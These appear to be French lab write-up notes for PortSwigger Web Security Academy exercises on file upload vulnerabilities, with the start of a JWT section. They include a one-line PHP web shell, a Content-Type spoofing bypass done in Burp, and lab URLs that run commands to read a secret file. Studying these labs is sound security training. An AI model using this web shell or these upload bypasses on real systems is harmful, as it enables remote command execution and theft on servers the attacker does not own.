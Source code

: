 ## === File upload vulnerabilities ===

### Remote code execution via web shell upload

Se connecter sur la page /my-account et changer d’avatar. D’abord choisir une image classique. 

Une fois l’image uploadée, rafraîchir pour regarder son compte et observer la requête avec Burp. Remarquer le morceau suivant : 

    <img src="/files/avatars/Nietzsche.jpg" class=avatar>

Changer d’avatar une deuxième fois et mettre un webshell PHP classique à la place : 

    <?php echo system($_GET['command']); ?>

Exécuter le webshell en allant sur l’URL trouvée à partir de l’image : 

> https://0a31007e03aad04685695dc0002c00cf.web-security-academy.net/files/avatars/Webshell.php?command=ls

> https://0a31007e03aad04685695dc0002c00cf.web-security-academy.net/files/avatars/Webshell.php?command=cat%20/home/carlos/secret 

### Web shell upload via Content-Type restriction bypass

Tenter de déposer le même webshell que pour le lab précédent.

On voit cette erreur : 

“Sorry, file type application/octet-stream is not allowed 
Only image/jpeg and image/png are allowed 
Sorry, there was an error uploading your file.”

Sur Burp, prendre la requête POST et la transférer au Repeater.

Remplacer “Content-Type: application/octet-stream” par “Content-Type: image/jpeg” et la renvoyer

Aller sur l’URL permettant d’interagir avec le webshell : 

> https://0a4700d2034ad0458506767700390095.web-security-academy.net/files/avatars/Webshell.php?command=cat%20/home/carlos/secret 

## === JWT ===

https://jwt.io/
https://github.com/ticarpi/jwt_tool/blob/master/README.md
https://github.com/portswigger/jwt-editor

Utiliser Inspector !

### JWT authentication bypass via unverified signature

Se connecter avec le compte fourni et récupérer le JWT sur Burp.

La page https://0a0600ae04c6794681da4478001e00d3.web-security-academy.net/admin est inaccessible pour l'instant et renvoie une erreur liée à nos droits.

